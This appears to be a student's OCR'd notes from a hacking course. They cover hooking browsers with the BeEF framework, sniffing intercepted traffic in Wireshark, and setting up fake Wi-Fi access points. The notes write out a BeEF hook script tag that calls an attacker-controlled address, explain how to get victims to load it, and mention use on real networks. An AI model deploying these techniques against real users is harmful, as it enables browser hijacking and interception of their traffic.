 

BEEF FRAMEWORK....

-----------------------------------
Click the beef icon > There will show the ui url pannel > open the link in browser to access the beef UI pannel.

username = beef  ; password = beef


in the terminal there also shows an example, copy the script 

[<script src="http://10.0.2.6:3000/hook.js"></script> this will be the hook script. Make an html file and put the script inside and if victim opens the html page he will be hooked. Use apache2 service for that or use java script injection in mitmf or any other ideas.]

------------------------------------

[⏺️ALL THESE ATTACKS, IF YOU ARE DOING IN A REAL NETWORK..MAKE SURE TO USE AN EXTERNAL WIRELESS ADAPTOR. SO WLAN0 WILL BE THERE, DEACTIVATE ETH0 WILE WLAN0 WILL EXIST. BECAUSE BOTH INTERFACE AT SAME TIME MAY CREATE SOME ISSUES, SO IN REAL NETWORK USE ONLY WLAN0 AND DEACTIVATE ETHO ]


WIRESHARK............

--------------------------------
Wireshark is not a hacking tool. All it does is to analyze all the packets flowing through our interface. So all the traffic is ours normally.

But we saw when we do mitm attack the victim's data flow through our computer/interface, so we can also analyze that with wireshark.

You can filter the packets like http, or post/get requests etc....

-------------------------------

FAKE ACCESS POINT CREATING...........

-----------------------------
Here we dont need to do anything more like arp spoofing or anything, we just need to create our fake AP and when clients connect we can directly start sniffing with wireshark and do anything we want.

Requirement: An interface connected  to internet (eth0, wlan0, or any virtual interface with internet access) And a wifi interface must.

The wifi interface must be able to brodcast the signal for the network. So this need to be act as an Access point.


[Best wirelsess adaptors : https://youtu.be/0lqRZ3MWPXY]


We need to configure sometthings, like we need to configure our wireless card to forward the connection to our interface connected to internet.

[Our network has internet connection(eth0...), the other interface or the wireeless adaptor is used for brodcasting signal to act as an Access Point.]


Lets study how to configure this mannually in the advanced part, for now lets see a great way of quikly creating an access point. We use a tool called mana toolkit for this.

